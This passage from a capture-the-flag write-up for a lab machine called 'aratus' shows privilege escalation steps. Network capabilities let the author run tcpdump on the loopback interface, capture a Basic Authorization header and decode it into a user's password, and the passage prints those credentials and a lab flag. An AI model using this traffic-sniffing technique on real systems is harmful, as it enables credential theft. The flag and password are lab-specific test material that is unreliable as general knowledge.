 We cannot access any of them, time to use `linpeas` then:

![](images/Pasted%20image%2020250607153801.png)

- `cap_net_admin`: Allow us to configure interfaces, firewalls, routing tables.
- `cap_net_raw`: Allow us socket usage (sniffing traffic, crafting packets).

Let's use `pspy` to check active processes, in there we may be able to find something to sniff:

![](images/Pasted%20image%2020250607154454.png)

As seen, there's a script running on here, let's use tcpdump to capture the traffic:

```
[simeon@aratus tmp]$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 02:a4:f9:b5:08:95 brd ff:ff:ff:ff:ff:ff
    inet 10.10.128.188/16 brd 10.10.255.255 scope global noprefixroute dynamic ens5
       valid_lft 3055sec preferred_lft 3055sec
    inet6 fe80::d64c:22ad:2f8f:cc83/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```

We need to use `lo` interface:

```
tcpdump -i lo -A
```

![](images/Pasted%20image%2020250607154637.png)

We got `Authorization: Basic dGhlb2RvcmU6UmlqeWFzd2FoZWJjZWliYXJqaWs= `, let's decode it:

![](images/Pasted%20image%2020250607154713.png)

There we go, we found credentials:

```
theodore:Rijyaswahebceibarjik
```

![](images/Pasted%20image%2020250607154741.png)

```
[theodore@aratus ~]$ cat user.txt
THM{ba8d3b87bfdb9d10115cbe24feabbc20}
```

Let's check our privileges:

```
[theodore@aratus ~]$ sudo -l
Matching Defaults entries for theodore on aratus:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User theodore may run the following commands on aratus:
    (automation) NOPASSWD: /opt/scripts/infra_as_code.sh
```
